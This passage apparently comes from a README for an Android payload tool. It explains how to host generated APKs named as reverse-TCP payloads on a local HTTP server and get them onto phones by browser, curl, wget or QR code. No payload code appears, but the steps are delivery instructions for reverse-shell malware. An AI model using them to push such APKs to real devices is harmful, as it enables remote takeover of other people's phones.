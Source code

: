 ### **Access Files via Browser**
```bash
# Open browser and go to:
http://localhost:8000

# You'll see a file listing with all APKs
# Click on any APK file to download it directly
```

### **Download via Command Line**
```bash
# From another terminal, download files using curl
curl -O http://localhost:8000/phantom_tcp_reverse_20250810_110000.apk

# Or using wget
wget http://localhost:8000/phantom_tcp_reverse_20250810_110000.apk

# Download to specific location
curl -o ~/Downloads/payload.apk http://localhost:8000/phantom_tcp_reverse_20250810_110000.apk
```

## 📱 Method 4: Mobile Device Access

### **Same Network Access**
```bash
# Find your local IP address
# Linux/Mac:
ip addr show | grep inet
ifconfig | grep inet

# Windows:
ipconfig

# Example IP: 192.168.1.100

# Start HTTP server on all interfaces
python3 -m http.server 8000 --bind 0.0.0.0

# Access from mobile device:
# http://192.168.1.100:8000
```

### **QR Code Generation**
```bash
# Install qrencode
sudo apt install qrencode  # Linux
brew install qrencode      # Mac

# Generate QR code for download link
echo "http://192.168.1.100:8000/phantom_tcp_reverse_20250810_110000.apk" | qrencode -t UTF8

# Generate QR code as image
qrencode -o payload_qr.png "http://192.168.1.100:8000/phantom_tcp_reverse_20250810_110000.apk"
```
